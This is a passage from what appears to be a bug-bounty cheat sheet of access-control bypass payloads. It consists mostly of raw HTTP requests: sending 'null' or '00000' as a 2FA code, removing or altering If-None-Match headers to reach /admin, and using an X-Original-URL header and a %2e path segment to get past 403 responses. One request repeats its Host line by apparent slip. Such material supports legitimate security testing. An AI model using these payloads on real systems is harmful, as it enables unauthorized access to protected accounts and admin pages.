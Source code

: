 ```
Host: vuln.com
...
code=00000
```
Enter code "null"
```
POST /2fa/
Host: vuln.com
...
code=null
```

## 304

### Delete "If-None-Match" header
```
GET /admin HTTP/1.1
Host: target.com
If-None-Match: W/"32-IuK7rSIJ92ka0c92kld"

----------------------------------------------

GET /admin HTTP/1.1
Host: target.com
```
### Adding random character in the end of "If-None-Match" header
```
GET /admin HTTP/1.1
Host: target.com
If-None-Match: W/"32-IuK7rSIJ92ka0c92kld"

------------------------------------------------

GET /admin HTTP/1.1
Host: target.com
Host: target.com
If-None-Match: W/"32-IuK7rSIJ92ka0c92kld" b
```

## 403

### Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com

----------------------------

GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```
### Appending %2e after the first slash
```
http://target.com/admin => 403

-----------------------------------

http://target.com/%2e/admin => 200
```